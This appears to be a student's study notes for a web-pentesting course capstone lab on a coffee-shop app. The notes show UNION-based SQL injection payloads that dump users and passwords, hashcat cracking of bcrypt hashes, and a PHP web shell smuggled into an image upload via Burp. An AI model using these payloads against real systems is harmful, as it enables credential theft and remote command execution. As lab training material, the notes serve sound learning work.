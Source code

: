 ##### UNION - Capstone
let's try using union
<span style="background:#fff88f">first we need to find the n° of columns</span>
at least we have 7 columns -->  ovvero coffe name, Scoring, Region, Notes, Varietal, Customer rating, Scoring, Region, Notes, Varietal
=>
with 7 null it works:
`' union select null, null, null, null, null, null, null-- -`

<span style="background:#fff88f">figure out which column is which output:</span>
`' union select null, 'string', null, null, null, null, null-- -`
![[Pasted image 20240310183059.png]]
=>

<span style="background:#fff88f">find tables:</span>
`' union select null, TABLE_NAME,null, null, null, null, null FROM INFORMATION_SCHEMA.TABLES-- -`
![[Pasted image 20240310183431.png]]

<span style="background:#fff88f">find columns of users table:</span>
`' union select null, COLUMN_NAME,null, null, null, null, null FROM INFORMATION_SCHEMA.COLUMNS-- -`
=>
there are the columns -->  username and password
<span style="background:#fff88f">find username and password:</span>
`' union select null, username,password, null, null, null, null FROM users-- -`
![[Pasted image 20240310183857.png]]

#### Crack the passwords (hashcat)
save into a file the jeremy and jessamy passwords

<span style="background:#fff88f">find the hashtype:</span>
[site](https://hashes.com/en/tools/hash_identifier)
![[Pasted image 20240310184314.png]]
=>
it's a -->  blowfish hash
=>
search on google the blowfish mode for hashcat  (is 3200)
=>
`hashcat -m 3200 passwords.txt /home/simone/Desktop/TCM/wordlist/SecLists/Passwords/xato-net-10-million-passwords-10000.txt`
<font color="#2DC26B">we found the jeremy password</font>
![[Pasted image 20240310184927.png]]

now:
<span style="background:#fff88f">login with this credentials and try to access to the admin page that we found before:</span>
=>
here we can upload a new coffe (<span style="color:#00b050">and also an image</span>)

### File Upload - Capstone
#### Shell - Capstone
- turn on FoxyProxy
- Setup initial things for BurpSuite -->  [[cheat#Initial things to do]]
- upload a new coffe through the admin page
- open the req inside burp > send it to Repeater
-  Insert our shell inside the image after the magic bytes and delete a portion of it
   `<?php system($_GET['cmd']); ?>`
-  change the filetype to php
- click on Send 
  =>
  ![[Pasted image 20240310190447.png]]
 _<span style="color:#00b050"> the image is been uploaded</span>
	